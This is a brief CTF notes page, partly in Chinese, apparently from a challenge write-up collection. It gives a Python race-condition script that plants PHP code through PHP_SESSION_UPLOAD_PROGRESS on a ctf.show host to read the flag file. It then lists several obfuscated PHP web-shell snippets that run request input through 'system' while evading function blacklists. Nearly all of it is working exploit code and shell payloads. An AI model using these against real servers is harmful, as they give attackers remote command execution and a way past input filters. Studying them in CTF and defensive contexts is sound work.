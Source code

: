 ```python
import requests
import threading
session=requests.session()
sess='yu22x'
url1="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/"
url2="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/upload"
data1={
    'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("tac ../f*");?>'
}
file={
    'file':'yu22x'
}
cookies={
    'PHPSESSID': sess
}

def write():
    while True:
        r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
    while True:
        r = session.get(url2)
        if 'flag' in r.text:
            print(r.text)

threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()
```

## 

## 绕过函数黑名单

参考https://blog.csdn.net/miuzzx/article/details/109537262

可以用于绕过函数正则匹配

```php
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>
<?php
$a=strrev('metsys');
$a($_REQUEST[1]);
?>
<?php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);
?>
```
